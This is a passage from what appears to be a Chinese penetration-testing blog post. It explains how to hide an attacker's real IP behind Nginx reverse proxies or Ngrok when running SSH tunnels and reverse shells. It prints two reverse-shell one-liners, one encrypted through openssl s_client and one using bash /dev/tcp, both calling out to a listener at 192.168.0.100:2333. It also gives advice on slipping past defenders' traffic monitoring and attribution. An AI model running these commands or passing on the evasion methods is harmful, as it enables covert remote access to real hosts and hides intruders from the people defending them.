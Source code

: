 ​	这里我们可以着重看一下箭头所指的地方，通过SSH隧道代理的方式，抛开我们VPS用户密码被监测到不谈，真实IP也一览无余的在网络进程以及相关连接中，老道的防守方成员可以很直观的发现是一起**【SSH隧道代理事件】**，但是这里也不是我们所需要关注的，毕竟我们不能把所有防守方当傻子，要正视对手的能力。

![1](.\images\4.png)

​	这里我们采取Nginx反向代理的方式，具体实现方式这里不多赘述，感兴趣的同学可以关注Ngrok或者Heroku等方式的配置，也可以自己使用匿名域名及服务器搭建。

​	通过上图我们可以看到使用反向代理的地址进行SSH隧道转发可以有效的隐匿真实的IP地址以及IP地址，注意这里的IP地址是Ngrok服务器的地址，从而实现了隐匿的效果。

# 反弹shell隐匿

​	在我们日常渗透Linux主机的时候，当碰到RCE漏洞的时候，需要进行反弹获取交互shell的时候，通常都会使用以下两条命令。

例1:

```bash
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.0.100:2333 > /tmp/s; rm /tmp/s
```

例2:

```bash
bash -c 'exec bash -i &>/dev/tcp/192.168.0.100/2333 <&1'
```

​	以上的两个例子可以说是我们日常渗透中最常用的两条反弹shell命令，当然例1的优点是他的流量是进行了加密的，在这种情况下反弹shell执行的命令是无法被流控监测到的，最多可能会报 **隐蔽隧道通信** 的异常事件，但是这种事件对于一个有一定规模的值守单位，真的是太正常了。每天都会发生成千上万起类似的误报，而像向日葵、teamview这一类的报警基本都是直接忽略的。

​	但是我们所需要注意的也正是这样的反弹方式，无论是例1还是例2我们都会发现都是不可避免的泄露了真实IP地址。其实这里的隐匿方式与上面的SSH隧道代理的原理是一样的。都是通过了反向代理的方式实现的，之前的文章中的渗透操作中也有使用这样的方式，然后有师傅咨询过，所以这里再拿出来冷饭热炒一下。

![1](.\images\5.png)
